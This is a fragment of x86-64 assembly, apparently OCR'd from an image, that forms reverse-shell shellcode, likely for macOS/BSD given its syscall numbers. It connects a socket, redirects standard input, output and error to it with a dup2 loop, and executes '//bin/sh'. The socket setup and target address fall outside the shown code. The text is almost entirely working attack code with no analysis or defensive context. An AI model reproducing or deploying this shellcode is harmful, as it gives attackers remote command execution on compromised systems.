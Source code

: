 ```
    push rsi
    push rsp
    pop  rsi

    ; connect(sockid, &sockaddr, 16)
    mov  rdi, rax
    xor  dl, 0x10
    mov  rax, r8
    mov  al, 0x62
    syscall

    xor rsi, rsi
    mov sil, 0x3

dup2:
    ; dup2(sockid, 2)
    ;   -> dup2(sockid, 1)
    ;   -> dup2(sockid, 0)
    mov  rax, r8
    mov  al, 0x5a
    sub  sil, 1
    syscall
    test rsi, rsi
    jne  dup2

    ; execve("//bin/sh", 0, 0)
    push rsi
    mov  rdi, 0x68732f6e69622f2f
    push rdi
    push rsp
    pop  rdi
    xor  rdx, rdx
    mov  rax, r8
    mov  al, 0x3b
    syscall
```
```



